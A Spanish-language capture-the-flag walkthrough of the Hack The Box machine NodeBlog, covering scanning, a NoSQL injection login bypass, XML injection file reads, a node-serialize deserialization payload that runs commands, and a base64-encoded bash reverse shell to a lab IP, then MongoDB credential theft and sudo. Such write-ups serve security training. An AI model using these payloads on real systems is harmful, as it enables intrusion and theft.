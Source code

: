 # EASY NODE BLOG HTB

Muy buenas a todo el mundo, mi nombre es D4l1 y hoy explicare como conseguir entender y destrozar la máquina NodeBlog

Nos encontramos con una máquina de dificultad fácil, que no por ello lo tiene que ser.

Nos encontramos con una máquina linux, ¿como lo sabemos?
Aquí tenemos dos formas:

Yo suelo utilizar mi escaner de puertos to guapo que tengo en github o simplemente con un ping. Y sabiendo los numeros tty podemos saber a que máquina nos enfrentamos 

```
ping ip
```
Posteriormente a esto y sabiendo que es una máquina Linux, lo siguiente que deberemos hacer es escanear la red en busca de puertos abiertos, versiones, scripts, etc. 

Esto lo haremos con nmap y un comando que suelo utilizar.

```
sudo nmap -sCV -T4 --min-rate 5000 -p- -Pn ip
```
En esta máquina nos encontramos dos puertos abiertos:
El puerto 22 con SSH
El puerto 5000 con Node.js 

En el que si entramos vemos un blog básico.

Podemos hacer un curl o entrar desde un navegador 

```
curl -v ip:5000
```
Vemos que utiliza el framework Express

Nos encontramos con el blog y obviamente inspeccionamos que nos encontramos, los directorios el código fuente etc.
Posteriormente encontramos un inicio de sesión, lo más obvio es probar un ataque de SQL INJECTION
Después de probar diferentes cosas  probamos el NoSQL

### NOSQL
Es un tipo de base de datos no relacional diseñada para modelos de datos, incluyendo llaves, columnas y graficos. La diferencia entre SQL y noSQL es la forma de guardar información y la estructuración de los datos.

Gracias a esta información encontramos un repositorio de bastantes payloads sobre noSQL

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass

Ahora lo que debemos hacer es que Node interprete un input de un objeto JSON, usando logicos booleanos para hacer el bypass.

# BURPSUITE

Simplemente nos iremos a la página de log, cogeremos la petición y cambiaremos el Content-Type para que acepte estar respuestas.
```
Content-Type: application/json
```
Lo enviaremos al Repeater.
Nos dan varios errores sobre /opt/blog (el código del servidor)

Ahora probaremos envede el formado predeterminado donde el usuario y la contraseña y añadiremos el payload de json 
```
{"user": "admin", "password": {"ne": "admin"}}
```
Gracias a esto conseguimos el token de autentificacion, lo ponemos en el navegador y nos redirigira a la página ya logueados.

Nos encontramos con un boton de "Upload" en el que podemos subir archivos y encontramos una injección XML

Gracias a esto podemos redirigir y leer diferentes ficheros del sistema como /etc/passwd

Anteriormente sabiamos que dentro de /opt/blog podemos leer el codigo del blog osea que vamos a ello.

En la que nos revela el siguiente codigo: 
```
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()
mongoose.connect('mongodb://localhost/blog')
app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: "UHC-SecretKey-123"}));
function authenticated(c) {
if (typeof c == 'undefined')
return false
c = serialize.unserialize(c)
if (c.sign == (crypto.createHash('md5').update(cookie_secret +
c.user).digest('hex')) ){
return true
 } else {
return false
 }
}
app.get('/', async (req, res) => {
const articles = await Article.find().sort({
createdAt: 'desc'
 })
res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress,
authenticated: authenticated(req.cookies.auth) })
})
app.use('/articles', articleRouter)
app.use('/login', loginRouter)
```
Leyendo un poco por arriba nos damos cuenta que con la funcion authenticated y pasandole la cookie de usuario que anteriormente hemos conseguido, podriamos llegar a hacer algo.

Gracias a esto conseguimos la cookie 
```
{"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}
```
Aqui tenemos la primera fase del proceso que sería probar a hacer un ping con un URL encode desde la BurpSuite 

Con este payload 
```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","haxez":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"ping -c 4 10.10.14.126\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```
Para que entendamos esto, es un payload sacado, con la simple funcion que hace un ping a nuestro ordenador para entender si nos hay una conexión y estan llegando los paquetes y tenemos la posibilidad de inyectar comandos en el servidor.

Desde nuestra máquina hariamos el comando para recibir comandos.

```
sudo tcpdump -ni tun0 icmp
```
Si esto ha salido existoso podemos pasar a hacer una reverse shell bastante simple.

```
echo -n 'bash -i  >& /dev/tcp/10.10.14.126/9001 0>&1' | base64
```
y cambiamos la funcion de nuestro ping por esta añadiendo.
```
echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI2LzkwMDEgMD4mMQ== | base64 -d | bash
```
Desde el Get, posteriormente hacemos una escucha esde el puerto elegido en mi caso 9001
```
sudo nc -lvnp 9001
```
Y buala estamos dentro!

## PRIVILEGE ESCALATION

Para empezar vamos a enumerar el sistema con ps
```
ps auxww
```
Nos encontramos con un MongoDB al cual tenemos acceso. Puerto 27017

```
ss -tlpn 
```
Gracias a esto podemos ver que nos podemos conectar manualmente a dicha base de datos

```
mongo
```
Dentro
```
show dbs
use blog
show colletions
```
Nos encontramos con la coleccion usuarios y la leemos
```
db.users.find()
```
Aqui dentro nos encontramos la contraseña del administrador
(Cual no voy a decir)
hacemos un 
```
sudo -l
sudo su
```
Y ya ESTA!!!!




